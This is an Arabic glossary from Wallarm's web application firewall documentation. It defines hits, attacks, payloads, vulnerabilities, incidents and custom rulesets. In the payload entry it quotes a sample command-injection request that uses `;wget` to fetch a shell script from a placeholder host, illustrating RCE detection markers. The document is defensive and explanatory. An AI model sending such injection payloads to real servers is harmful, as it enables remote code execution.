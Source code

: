 # المعجم

يغطي المعجم الكيانات الأساسية لـ Wallarm لتوفير فهم أفضل للمنصة.

## الضربة

الضربة هي طلب ضار مُتسلسل (الطلب الضار الأصلي والبيانات الوصفية المضافة بواسطة عقدة التصفية)، مثل:

![مثال على ضربة](images/user-guides/events/analyze-attack-raw.png)

[تفاصيل عن معلمات الضربة](user-guides/events/analyze-attack.md#analyze-requests-in-an-attack)

## الهجوم

الهجوم هو ضربة واحدة أو عدة ضربات مجمعة حسب الخصائص التالية:

* نفس نوع الهجوم، المعامل الذي يحتوي الحمولة الضارة، والعنوان الذي تم إرسال الضربات إليه. قد تأتي الضربات من نفس العناوين IP أو من عناوين مختلفة وتحتوي على قيم مختلفة للحمولات الضارة ضمن نوع هجوم واحد.

    طريقة تجميع الضربات هذه أساسية وتطبق على جميع الضربات.

* نفس عنوان IP المصدر إذا تم تفعيل [تجميع الضربات حسب عنوان IP المصدر](user-guides/events/analyze-attack.md#grouping-of-hits). قد تختلف قيم معلمات الضربات الأخرى.

    طريقة تجميع الضربات هذه تعمل لجميع الضربات عدا تلك التي تنتمي إلى أنواع الهجوم Brute force، Forced browsing، BOLA (IDOR)، Resource overlimit، Data bomb وVirtual patch.

    إذا تم تجميع الضربات بهذه الطريقة، فإن زر [**وسم كإيجابية كاذبة**](user-guides/events/false-attack.md#mark-an-attack-as-a-false-positive) وخيار [التحقق النشط](about-wallarm/detecting-vulnerabilities.md#active-threat-verification) غير متاحين للهجوم.

طرق تجميع الضربات المذكورة لا تستبعد بعضها البعض. إذا كانت الضربات تحمل خصائص كلتا الطريقتين، فإنها جميعًا تُجمّع في هجوم واحد.

مثال على هجوم يتضمن ضربة واحدة:

![هجوم بضربة واحدة](images/glossary/attack-with-one-hit-example.png)

مثال على هجوم يتضمن العديد من الضربات:

![هجوم بعدة ضربات](images/glossary/attack-with-several-hits-example.png)

## الحمولة الضارة

جزء من الطلب الأصلي يحتوي على العناصر التالية:

* علامات الهجوم المكتشفة في طلب. إذا تم اكتشاف علامات هجوم عدة تعبر عن نفس نوع الهجوم في طلب، سيتم تسجيل العلامة الأولى فقط في الحمولة.
* سياق علامة الهجوم. السياق هو مجموعة من الرموز التي تسبق وتغلق علامات الهجوم المكتشفة. نظرًا لأن طول الحمولة محدود، يمكن حذف السياق إذا كانت علامة الهجوم بطول الحمولة كاملة.

على سبيل المثال:

* الطلب:

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* الحمولة الضارة:

    ```bash
    ;wget+http://s
    ```

    في هذه الحمولة، `;wget+` هي علامة الهجوم [RCE](attacks-vulns-list.md#remote-code-execution-rce) والجزء الآخر من الحمولة هو سياق علامة الهجوم.

نظرًا لأن علامات الهجوم لا تُستخدم لاكتشاف [الهجمات السلوكية](about-wallarm/protecting-against-attacks.md#behavioral-attacks)، فإن الطلبات المرسلة جزءًا من الهجمات السلوكية لها حمولات فارغة.

## الثغرة الأمنية
الثغرة الأمنية هي خطأ يحدث بسبب الإهمال أو عدم كفاية المعلومات عند بناء أو تنفيذ تطبيق ويب يمكن أن يؤدي إلى مخاطر أمن المعلومات.

مخاطر أمن المعلومات هي:

* الوصول غير المصرح به إلى البيانات؛ مثل، الوصول لقراءة وتعديل بيانات المستخدم.
* رفض الخدمة.
* تلف البيانات وغيرها.

يمكن استخدام حركة المرور على الإنترنت لاكتشاف الثغرات الأمنية، وهو ما تقوم به Wallarm، من بين وظائف أخرى.

## الحادث الأمني

الحادث الأمني هو وقوع استغلال لثغرة. الحادث هو [هجوم](#attack) موجه نحو ثغرة مؤكدة.

الحادث، مثل الهجوم، هو كيان خارجي عن نظامك وهو خاصية الإنترنت الخارجي، لا النظام نفسه. على الرغم من أن الهجمات الموجهة نحو الثغرات الموجودة هي أقلية، إلا أنها تمثل أقصى أهمية من حيث أمن المعلومات. تكتشف Wallarm تلقائيًا الهجمات الموجهة نحو الثغرات الموجودة وتعرضها ككائن منفصل - حادث.

## الذاكرة المؤقتة الدائرية
الذاكرة المؤقتة الدائرية هي بنية بيانات تستخدم ذاكرة ثابتة الحجم واحدة كأنها متصلة من نهاية إلى نهاية.
[انظر ويكيبيديا](https://en.wikipedia.org/wiki/Circular_buffer).

## مجموعة القواعد الخاصة (المصطلح السابق LOM)

مجموعة القواعد الخاصة هي مجموعة من قواعد الأمان المترجمة التي يقوم عقد Wallarm بتنزيلها من سحابة Wallarm.

تتيح لك القواعد الخاصة إعداد قواعد فردية لمعالجة الحركة، مثل:

* إخفاء البيانات الحساسة قبل الرفع إلى سحابة Wallarm
* إنشاء مؤشرات هجومية بناءً على regexp
* تطبيق تصحيح افتراضي يحجب الطلبات التي تستغل ثغرة نشطة
* تعطيل اكتشاف الهجوم في طلبات معينة، إلخ.

مجموعة القواعد الخاصة ليست فارغة بشكل افتراضي، فهي تحتوي على القواعد المُنشأة لجميع العملاء المُسجلين في السحابة، مثل قاعدة وضع التصفية بالقيمة من علامة التبويب [**Settings → General**](admin-en/configure-wallarm-mode.md#setting-up-the-general-filtration-rule-in-wallarm-console).

[المزيد من التفاصيل حول مجموعات القواعد الخاصة](user-guides/rules/rules.md)

## الطلب الغير صالح
طلب تم فحصه بواسطة عقدة التصفية ولا يتطابق مع قواعد LOM.

## الوكيل العكسي
الوكيل العكسي هو نوع من خوادم الوكيل التي تسترد الموارد نيابةً عن العميل من خادم وتعيد الموارد إلى العميل كما لو أنها نشأت من خادم الويب نفسه.
[انظر ويكيبيديا](https://en.wikipedia.org/wiki/Reverse_proxy).

## سلطة الشهادة
سلطة الشهادة هي كيان يصدر شهادات رقمية.
[انظر ويكيبيديا](https://en.wikipedia.org/wiki/Certificate_authority).